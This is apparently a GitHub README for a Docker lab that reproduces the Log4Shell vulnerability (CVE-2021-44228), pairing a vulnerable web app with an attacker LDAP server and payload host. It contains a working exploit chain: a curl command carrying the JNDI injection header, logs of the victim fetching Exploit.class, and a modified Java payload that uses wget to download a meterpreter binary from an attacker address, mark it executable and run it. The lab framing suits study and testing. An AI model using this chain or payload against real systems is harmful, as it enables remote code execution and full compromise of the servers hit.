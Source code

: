 # log4shell-dockerlab

## Credits
All credits goes to the original authors. I just git-cloned and created a docker-compose file, that's all. 

[LunaSec - log4shell 0-day](https://www.lunasec.io/docs/blog/log4j-zero-day/)
[@christophetd - log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)
[@mbechler - marshalsec](https://github.com/mbechler/marshalsec)
[@tangxiaofen7 - Exploit.java](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

## Description 
This repository contains a docker-compose setup which starts an attacker LDAP server and a victim web server that is vulnerable to log4shell (CVE-2021-44228). 

## Components 

Victim Web server - log4shell-vulnerable-app: A web server with log4j, vulnerable to first stage payload, which is the log4shell attack. 

Attacker LDAP sever - marshalsec: A LDAP server that receives jndi request from the victim web server. Redirects the victim web server to attacker web server. 

Attacker Web server - A `python3 -m http.server` server which hosts the second stage payload, which is the `Exploit.class`. 

## Usage 

Start the victim web server and the attacker ldap server 
```
docker-compose up --build 
```

Prepare the second stage payload. The port 8888 is hardcoded. To change this, modify `./marshalsec/Dockerfile`.
```
cd ./attacker-webserver
python3 -m http.server 8888
```

Attack
```
// Attack with log4shell payload 
└─# curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'    

Hello, world!

// Docker-compose's LDAP server replying to JNDI & victim web server downloading Exploit.class from the attacker web server 
log4shell-dockerlab-targetweb-1  |
log4shell-dockerlab-jndi-1       | Send LDAP reference result for Exploit redirecting to http://172.17.0.1:8888/Exploit.class
log4shell-dockerlab-targetweb-1  | 2021-12-12 05:01:44,345 http-nio-8080-exec-7 WARN Error looking up JNDI resource [ldap://192.168.40.128:1389/Exploit]. javax.naming.NamingException: problem generating object using object factory [Root exception is java.lang.ClassCastException: Exploit cannot be cast to javax.naming.spi.ObjectFactory]; remaining name 'Exploit'
log4shell-dockerlab-targetweb-1  |      at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1092)

// Attacker's web server sending second stage payload to the victim web server. This will get executed.
└─# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
172.20.0.3 - - [12/Dec/2021 00:01:44] "GET /Exploit.class HTTP/1.1" 200 -
```

Check the attack poc 
```
// Check docker ps and find out container ID of the "targetweb"
└─# docker ps
CONTAINER ID   IMAGE                           COMMAND                  CREATED             STATUS          PORTS                                       NAMES
1131d694c91a   log4shell-dockerlab_jndi        "/usr/local/bin/mvn-…"   51 minutes ago      Up 51 minutes   0.0.0.0:1389->1389/tcp, :::1389->1389/tcp   log4shell-dockerlab-jndi-1
a2217b3781ad   log4shell-dockerlab_targetweb   "java -jar /app/spri…" 


// Check /tmp and validate the POC have worked 
└─# docker exec a2217b3781ad ls /tmp
hsperfdata_root
log4shell-pwned
```

## Usage - Modified Payload 
Instead of the `Exploit.java` POC, you can modify the payload.

Install JDK if you don't have one 
```
apt install -y default-jdk 
```

Modify the PoC. For example, you can test with a metasploit's `multi/script/web_delivery`. 
```
// Modified PoC to ship meterpreter instead of the original echo pwned > /tmp/log4shell-pwned payload. 

public class Rev {
    public Rev() {}
    static {
        try {
            String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                    ? new String[]{"cmd.exe","/c", "calc.exe"}
                    : new String[]{"sh","-c", "wget -qO PqhJT1H2 --no-check-certificate http://192.168.40.128:7777/mhjfufvGzrRws; chmod +x PqhJT1H2; ./PqhJT1H2& disown"};
            java.lang.Runtime.getRuntime().exec(cmds).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {
        Rev e = new Rev();
    }
} 
```

Compile the second stage. Make sure to target JDK 8, since the `log4shell-vulnerable-app` was built on JDK 8. 
```
// Compile with JDK 8
javac --release 8 <your-payload>.java 

// Sanity check and make sure it's version 52.0 (jdk 8)
└─# file Rev.class
Rev.class: compiled Java class data, version 52.0 (Java 1.8)
```

Host the file, and attack again
```
python3 -m http.server 8888 
curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'
ex) curl 192.168.40.128:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.40.128:1389/Exploit}'  
```

## References 
https://www.lunasec.io/docs/blog/log4j-zero-day/
http://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228
https://github.com/christophetd/log4shell-vulnerable-app
https://github.com/mbechler/marshalsec
https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
